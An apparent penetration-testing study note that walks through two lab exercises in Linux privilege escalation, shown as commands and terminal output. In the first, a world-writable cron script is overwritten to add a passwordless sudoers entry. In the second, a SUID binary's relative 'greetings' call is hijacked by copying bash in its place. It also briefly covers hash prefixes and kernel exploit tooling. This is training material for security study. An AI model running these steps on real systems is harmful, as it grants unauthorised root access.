

# Linux Privilege Escalation

> [!info] Navigation
> [[Home]] | [[Master Table of Contents]] | [[Exam Cram Guide]] | [[Command Dashboard]] | [[Curated External Sources]] | [[Visual Diagram Index]]


## Sections in This Note
- [[#Exploiting Misconfigured Cron Jobs|Exploiting Misconfigured Cron Jobs]]
- [[#Exploiting Misconfigured Cron Jobs — Key Points|Exploiting Misconfigured Cron Jobs — Key Points]]
- [[#Exploiting SUID Binaries — Key Points|Exploiting SUID Binaries — Key Points]]
- [[#Linux Privilege Escalation|Linux Privilege Escalation]]

---

## Exploiting Misconfigured Cron Jobs

Cron is a lifesaver for admins for periodic maintenance tasks, and can even be used for tasks within individual user directories. However, such automations need to be used with caution, or can lead to easy privilege escalation attacks.

**Step 1:** There is a "message" file in the home directory of the student user. Only the root user has permissions on this file, so the student user can't even read it.

```
Command: ls -l
```
```
student@attackdefense:~$ ls -l
total 4
-rw------- 1 root root 26 Sep 23 18:14 message
student@attackdefense:~$
student@attackdefense:~$
student@attackdefense:~$ cat message
cat: message: Permission denied
student@attackdefense:~$
```

**Step 2:** Find if a file with the same name exists on the system.
```
Command: find / -name message
```

**Step 3:** Observe that a file with the same name is present in `/tmp` directory. On checking closely, it's clear this file is being overwritten every minute.
```
Command: ls -l /tmp/
```
```
student@attackdefense:~$ ls -l /tmp/
total 4
-rw-r--r-- 1 root root 26 Nov  9 06:11 message
student@attackdefense:~$
student@attackdefense:~$ ls -l /tmp/
total 4
-rw-r--r-- 1 root root 26 Nov  9 06:12 message
student@attackdefense:~$
```

**Step 4:**
```
Command: grep -nri "/tmp/message" /usr
```
```
student@attackdefense:~$ grep -nri "/tmp/message" /usr
/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
/usr/local/share/copy.sh:3:chmod 644 /tmp/message
student@attackdefense:~$
```

**Step 5:** Check the permissions on this script file and its contents.
```
Commands:
ls -l /usr/local/share/copy.sh
cat /usr/local/share/copy.sh
```
```
student@attackdefense:~$ ls -l /usr/local/share/copy.sh
-rwxrwxrwx 1 root root 74 Sep 23 18:14 /usr/local/share/copy.sh
student@attackdefense:~$
student@attackdefense:~$ cat /usr/local/share/copy.sh
#!/bin/bash
cp /home/student/message /tmp/message
chmod 644 /tmp/message
student@attackdefense:~$
```

**Step 6:** Since the script file is writable by the current "student" user, it can be modified to execute our commands. This script is executed by a root cron job, so it can do privileged operations. However, the file can't be modified directly since there's no text editor on the system.
```
student@attackdefense:~$ vim /usr/local/share/copy.sh
bash: vim: command not found
student@attackdefense:~$ vi /usr/local/share/copy.sh
bash: vi: command not found
student@attackdefense:~$ nano /usr/local/share/copy.sh
bash: nano: command not found
student@attackdefense:~$
```

**Step 7:** Use `printf` to replace the original code with the following lines.
```
Code: printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
```
On execution, these lines add a new entry to `/etc/sudoers`, allowing the student user to use sudo without a password.
```
Command: cat /usr/local/share/copy.sh
```
```
student@attackdefense:~$ printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
student@attackdefense:~$
student@attackdefense:~$ cat /usr/local/share/copy.sh
#!/bin/bash
echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers
student@attackdefense:~$
```

**Step 8:** Check current sudoers list.
```
Command: sudo -l
```
```
student@attackdefense:~$ sudo -l
Matching Defaults entries for student on attackdefense:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on attackdefense:
    (root) NOPASSWD: /etc/init.d/cron
student@attackdefense:~$
```

**Step 9:** There are no new entries. So, wait for 1 minute (the cron job runs every minute) and check the sudoers list again. This time a new entry is there.
```
Command: sudo -l
```
```
student@attackdefense:~$ sudo -l
Matching Defaults entries for student on attackdefense:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on attackdefense:
    (root) NOPASSWD: /etc/init.d/cron
    (root) NOPASSWD: ALL
student@attackdefense:~$
```

**Step 10:** Switch to the root user using sudo.
```
Command: sudo su
```
```
student@attackdefense:~$ sudo su
root@attackdefense:/home/student# whoami
root
```

## Exploiting Misconfigured Cron Jobs — Key Points
- Linux implements task scheduling through a utility called Cron.
- Cron is a time-based service that runs applications, scripts, and other commands repeatedly on a specified schedule.
- An application/script configured to run repeatedly with Cron is known as a Cron job. Cron can automate/repeat a wide variety of functions, from daily backups to system upgrades and patches.
- The crontab file is a configuration file used by the Cron utility to store and track Cron jobs.
- Cron jobs can be run as any user on the system — an important factor since we target Cron jobs configured to run as the "root" user.
- Any script/command run by a Cron job will run as the root user, providing root access.
- To elevate privileges, we need to find and identify cron jobs scheduled by root, or the files being processed by the cron job.

---

## Exploiting SUID Binaries

**Step 1:** Check the contents of the student's directory.
```
Command: ls -l
```
```
student@attackdefense:~$ ls -l
total 24
-r-x------ 1 root root 8296 Sep 22 21:24 greetings
-rwsr-xr-x 1 root root 8344 Sep 22 21:24 welcome
student@attackdefense:~$
```

**Step 2:** Observe that the `welcome` binary has the SUID bit set. This means this binary and its child processes will run with root privileges. Check the file type.
```
Command: file welcome
```
```
student@attackdefense:~$ file welcome
welcome: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=199bc8fd6e66e29f770cdc90ece1b95484f34fca, not stripped
student@attackdefense:~$
```

**Step 3:** Investigate the binary using the `strings` command.
```
Command: strings welcome
```
```
student@attackdefense:~$ strings welcome
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
__ITM_deregisterTMCloneTable
__gmon_start__
__ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
greetings
;*3$"
GCC: (Ubuntu 7.3.0-16ubuntu3) 7.3.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
```

The binary calls `system("greetings")` without an absolute path — meaning it looks for a `greetings` binary in the current working directory/PATH. We can exploit this by replacing `greetings` with our own executable.

**Step 4:** Remove the original `greetings` file and replace it with `/bin/bash`.
```
student@attackdefense:~$ rm greetings
rm: remove write-protected regular file 'greetings'? y
student@attackdefense:~$
student@attackdefense:~$ cp /bin/bash greetings
```

**Step 5:** Run the `welcome` binary again.
```
student@attackdefense:~$ ./welcome
root@attackdefense:~#
root@attackdefense:~# whoami
root
root@attackdefense:~# cd /root/
root@attackdefense:/root#
```

## Exploiting SUID Binaries — Key Points

- In addition to the three main file access permissions (read, write, execute), Linux provides specialized permissions for specific situations. One of these is the **SUID (Set Owner User ID)** permission.
- When applied, this permission allows users to execute a script or binary with the permissions of the file owner, as opposed to the user running it.
- SUID permissions are typically used to give unprivileged users the ability to run specific scripts/binaries with "root" permissions. The elevated privilege is limited to the execution of the script and doesn't translate to elevation of privileges in general — however, if improperly configured, unprivileged users can exploit misconfigurations or vulnerabilities in the binary/script to obtain an elevated session.

Success of exploiting SUID binaries depends on:
- **Owner of the SUID binary** — We only exploit SUID binaries owned by the "root" user or other privileged users.
- **Access permissions** — We need executable permissions to execute the SUID binary.

---

## Linux Password Hashes

Linux has multi-user support, so multiple users can access the system simultaneously. This is both an advantage and disadvantage from a security perspective, since multiple accounts offer multiple access vectors for attackers.

All account information on Linux is stored in `/etc/passwd`.

| Value | Hashing Algorithm |
|---|---|
| `$1` | MD5 |
| `$2` | Blowfish |
| `$5` | SHA-256 |
| `$6` | SHA-512 |

---

## Network Based Attacks

## Linux Privilege Escalation

The privilege escalation techniques we can use depend on the version of the Linux kernel and the distribution release version. MSF offers very few Linux kernel exploit modules, but there may be an exploit module for a vulnerable service/program in order to elevate privileges.

## External Sources
- [Linux cron man page](https://www.man7.org/linux/man-pages/man8/cron.8.html)
- [Linux crontab man page](https://www.man7.org/linux/man-pages/man5/crontab.5.html)

## Visual Diagram


## Related
- [[Exam Cram Guide]]
- [[Command Dashboard]]

---
## Migrated from Unsorted Notes — Linux Kernel Exploits

### Linux Kernel Exploits

- Kernel exploits on Linux typically target vulnerabilities in the Linux kernel to execute arbitrary code, run privileged system commands, or obtain a system shell.
- This process differs based on kernel version, distribution, and the exploit used.
- Privilege escalation on Linux systems typically follows:
  - Identifying kernel vulnerabilities
  - Downloading, compiling, and transferring kernel exploits onto the target system

**Linux-Exploit-Suggester** — Designed to assist in detecting security deficiencies for a given Linux kernel/machine. Assesses (using heuristic methods) the exposure of the given kernel to every publicly known Linux kernel exploit.
https://github.com/The-Z-Labs/linux-exploit-suggester
